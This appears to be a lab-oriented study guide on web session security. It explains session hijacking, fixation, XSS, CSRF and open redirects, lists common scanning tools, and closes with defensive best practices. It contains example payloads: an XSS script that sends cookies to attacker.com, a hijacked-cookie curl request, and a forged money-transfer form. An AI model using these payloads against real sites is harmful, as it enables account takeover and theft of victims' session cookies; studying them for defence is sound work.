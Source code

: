 # Session Security Guide

## Introduction to Sessions

### Stateless HTTP

HTTP is stateless, meaning each request is treated independently. Web applications use sessions to maintain user state across multiple requests.

### Session Identifiers (Session IDs)

- Unique tokens that identify a user's session.
    
- Stored in cookies, URL parameters, or HTML.
    
- Each storage method has security implications.
    

### Session ID Security Best Practices

- **Uniqueness:** Each session ID should be unique to prevent duplication.
    
- **Randomness:** Must be generated using a strong random number generator.
    
- **Expiration:** Should expire after a reasonable time to reduce risk.
    

## Common Session Attacks

### Session Hijacking

**Concept:** An attacker obtains a valid session ID to impersonate a user.

**Example:** Using `curl` with a captured session cookie:

```bash
curl -b "sessionid=captured_session_id" https://target.com/protected_page
```

**Example:** Using a browser's cookie editor to inject a session ID manually.

### Session Fixation

**Concept:** An attacker sets a session ID and forces the victim to use it.

**Example:** Attacker assigns a session ID:

```bash
curl -b "sessionid=attacker_session_id" https://target.com/
```

### Cross-Site Scripting (XSS) - Session ID Theft

**Concept:** Injected JavaScript can steal session IDs.

**Example:** Injecting JavaScript to steal cookies:

```html
<script>document.location='https://attacker.com/steal?c='+document.cookie</script>
```

**Example:** Using `curl` to test for reflected XSS:

```bash
curl "https://target.com/page?param=<script>alert(1)</script>"
```

### Cross-Site Request Forgery (CSRF)

**Concept:** Tricks a user into performing an action they did not intend while authenticated.

**Example:** Malicious HTML form to trigger CSRF attack:

```html
<form action="https://target.com/transfer" method="POST">
  <input type="hidden" name="account" value="attacker_account">
  <input type="hidden" name="amount" value="1000">
  <input type="submit" value="Transfer Money">
</form>
```

**Example:** Using `curl` to send a CSRF request:

```bash
curl -X POST -d "account=attacker_account&amount=1000&csrf_token=known_token" https://target.com/transfer
```

### Open Redirects

**Concept:** Redirecting users to malicious sites.

**Example:** Testing for open redirects using `curl`:

```bash
curl -i "https://target.com/redirect?url=https://attacker.com"
```

**Example:** Using `wfuzz` to fuzz for open redirect vulnerabilities:

```bash
wfuzz -c -z file,redirect_urls.txt https://target.com/redirect?url=FUZZ
```

## /etc/hosts File Manipulation for Lab Environments

### Adding Host Entries

- **Single entry:**
    

```bash
echo "<TARGET_IP> target.com" | sudo tee -a /etc/hosts
```

- **Multiple entries:**
    

```bash
IP="<TARGET_IP>"
echo -e "$IP\txss.htb.net\n$IP\tcsrf.htb.net\n$IP\toredirect.htb.net\n$IP\tminilab.htb.net" | sudo tee -a /etc/hosts
```

- **Viewing file contents:**
    

```bash
cat /etc/hosts
```

- **Editing the file:**
    

```bash
sudo nano /etc/hosts
# or
sudo vim /etc/hosts
```

## Essential Security Tools

### Nmap - Network Scanning

```bash
nmap -sV -sC https://target.com
```

### Gobuster - Directory Brute Forcing

```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### SQLmap - SQL Injection Detection

```bash
sqlmap -u "https://target.com/page.php?id=1" --dbs
```

### Nikto - Web Server Scanning

```bash
nikto -h https://target.com
```

### Burp Suite

- **Burp Intruder:** Automated fuzzing and brute-forcing.
    
- **Burp Repeater:** Manually crafting and replaying HTTP requests.
    
- **Burp Scanner:** Automated vulnerability scanning.
    

## Security Best Practices

- Use **strong, randomly generated** session IDs.
    
- Store session IDs securely with **HTTPOnly** and **Secure** flags.
    
- Implement **CSRF protection** using tokens.
    
- Validate and sanitize **all user input**.
    
- Use **output encoding** to prevent XSS.
    
- Regenerate session IDs after login and sensitive actions.
    
- Implement proper **session timeouts**.
    
- Use **HTTPS** for all communication.
    
- Consider deploying a **Web Application Firewall (WAF)**.
    

